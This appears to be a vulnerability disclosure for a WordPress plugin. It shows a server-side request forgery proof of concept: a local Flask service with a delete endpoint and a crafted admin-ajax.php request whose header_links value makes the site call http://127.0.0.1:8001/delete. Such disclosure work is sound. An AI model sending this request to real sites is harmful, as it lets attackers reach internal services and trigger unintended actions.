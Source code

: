 ## Exploit

### Local Server

Create a simple local service using Python

```py
from flask import Flask, request
import os

BASE_DIR = os.path.abspath(os.getcwd())
app = Flask(__name__)

@app.route('/delete', methods=['GET'])
def delete():
    file_id = request.args.get('id')
    if not file_id:
        return "No id provided", 400
    print(f"delete it: {file_id}")
    return f"Delete it: {file_id}"

if __name__ == '__main__':
    app.run(host='0.0.0.0', port=8001, debug=True)
```

### Proof of Concept (PoC)

1. Visit the homepage and obtain the `nonce`

2. Send a POST request to the endpoint

```http
POST /wp-admin/admin-ajax.php HTTP/1.1
Host: localhost
...

action=blnotifier_blinks&nonce=87f4d1ef16&source_url=http://localhost:8001/&header_links[0]=http://127.0.0.1:8001/delete?id=1
```

**Result**:

![Result](result.png "Successfully sent request to local service")
